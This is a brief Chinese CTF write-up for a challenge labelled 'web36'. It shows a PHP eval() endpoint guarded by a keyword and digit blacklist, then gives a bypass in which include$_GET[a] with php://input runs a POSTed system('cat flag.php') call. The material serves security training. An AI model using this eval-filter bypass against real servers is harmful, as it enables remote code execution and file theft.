 # web36

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这一次，除了增加斜杠以外，还拦截了0-9的数字

那么可以使用字母来进行传参

```plaintext
https://9c2e6982-15a1-4368-983b-0151becdd0b2.challenge.ctf.show/?c=include$_GET[a]?>&a=php://input

POST: <?php system("cat flag.php"); ?>
```

![img](img/image_20250207-190738.png)
